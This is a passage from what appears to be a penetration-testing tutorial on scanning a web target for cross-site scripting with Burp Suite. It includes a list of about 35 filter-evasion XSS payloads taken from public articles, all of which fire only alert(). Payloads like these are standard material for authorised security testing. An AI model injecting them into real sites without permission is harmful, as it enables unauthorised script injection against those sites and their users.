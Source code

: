 _Burp Logger_

> Note: If your target site is an internal environment inside a company’s VPN under IPv6, you should go: Project Options → HTTP → HTTP/2 and turn off «Default to HTTP/2 if the server supports it».

## 2. Prepare payload

To scan for vulnerabilities, you need to have «vectors» for attack. The most significant XSS vectors are listed in OWASP’s [XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html).

To have only a few vectors is not enough for such kind of testing — you need different sets of payloads aimed at bypassing certain defensive filters — you do not know in advance which one will «work».

For this example, I composed a payload list from the articles «[XSS that works in 2021](https://netsec.expert/posts/xss-in-2021/)» and

«[New XSS vectors](https://portswigger.net/research/new-xss-vectors)»:

```
{% raw %}
<svg onload=alert(1)>
<svg/onload=alert(1)><svg>
<svg%0Aonload=alert(1)><svg>
<svg    onload=alert(1)><svg>
<svgonload=alert(1)><svg>
<body onload=alert()>
<img src=x onerror=alert()>
<svg onload=alert()>
<body onpageshow=alert(1)>
<marquee width=10 loop=2 behavior="alternate" onbounce=alert()>
<marquee onstart=alert(1)>
<marquee loop=1 width=0 onfinish=alert(1)>
<input autofocus="" onfocus=alert(1)></input>
<details open ontoggle="alert()">
<video autoplay onloadstart="alert()" src=x></video>
<video autoplay controls onplay="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>
<video controls onloadeddata="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>
<video controls onloadedmetadata="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>
<video controls onloadstart="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>
<video controls onloadstart="alert()"><source src=x></video>
<video controls oncanplay="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>
<audio autoplay controls onplay="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></audio>
<audio autoplay controls onplaying="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></audio>
<style>@keyframes x {}</style>
<p style="animation: x;" onanimationstart="alert()">XSS</p>
<p style="animation: x;" onanimationend="alert()">XSS</p>
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.5);z-index: 5000;" onclick="alert(1)"></div>
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.0);z-index: 5000;" onmouseover="alert(1)"></div>
<svg><animate onbegin=alert() attributeName=x></svg>
<object data="data:text/html,<script>alert(5)</script>">
<iframe srcdoc="<svg onload=alert(4);>">
<object data=javascript:alert(3)>
<iframe src=javascript:alert(2)>
<embed src=javascript:alert(1)>
```
